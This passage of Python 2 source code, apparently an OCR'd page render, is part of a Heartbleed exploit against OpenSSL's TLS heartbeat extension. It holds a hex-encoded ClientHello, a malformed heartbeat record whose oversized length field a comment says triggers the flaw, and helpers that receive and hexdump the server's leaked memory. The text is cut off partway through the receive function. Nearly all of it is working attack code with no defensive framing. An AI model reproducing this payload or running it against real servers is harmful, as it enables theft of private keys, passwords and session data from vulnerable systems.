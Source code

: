 hello2 = h2bin(&#x27;&#x27;&#x27;
16 03 02 00 6c 01 00 00 
68 03 01 55 80 a3 2d 12 
d8 d2 07 ab 90 86 b4 3d 
b6 f2 bd 7b 87 ea e9 cb 
db ad c3 84 b0 fa 67 0f 
3c de 59 09 a6 44 b7 5c 
de 58 1f 67 26 00 38 00 
10 00 0c 00 09 00 07 00 
14 00 05 00 0e 00 08 00 
04 00 0d 00 00 00 15 00 
01 00 03 00 0b 00 11 00 
12 00 18 00 1a 00 06 00 
0a 00 13 00 17 00 16 00 
0f 00 02 00 1b 00 19 01 
00 18 03 02 00 6f 01 44 
21 09 8d 7c 6f b8 a2 26 
e3 c7 30 27 aa a5 a4 c2 
fe 59 16 48 a7 15 3d a2 
f8 8a 4c a5 6c a4 ae 42 
4a 34 26 da e1 7d cd 30 
c0 d5 a7 89 f4 d0 de 01 
1e 79 23 02 09 67 f2 5d 
7c ba ad a8 c4 5b 7a 90 
7f bb 0c 09 10 1d 3f 28 
63 77 98 cf 0c a1 be 04 
00 2e fe fc af 57 6e e9 
c8 fa c8 03 22 b4 44 e9 
20 da d1 bb b2 3d f8 fa 
42 9a a5 8b 81

&#x27;&#x27;&#x27;)
#04 21 is len
#0800 can triger the vulnerability max value4000
hb = h2bin(&#x27;&#x27;&#x27;
18 03 02 00 03
01 08 00
&#x27;&#x27;&#x27;)



def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = &#x27; &#x27;.join(&#x27;%02X&#x27; % ord(c) for c in lin)
        pdat = &#x27;&#x27;.join((c if 32 &lt;= ord(c) &lt;= 126 else &#x27;.&#x27; )for c in lin)
        print &#x27;  %04x: %-48s %s&#x27; % (b, hxdat, pdat)
    print


def recvall(s, length, timeout=4):
    endtime = time.time() + timeout
    rdata = &#x27;&#x27;
    remain = length
    while remain &gt; 0:
        rtime = endtime - time.time()
        if rtime &lt; 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data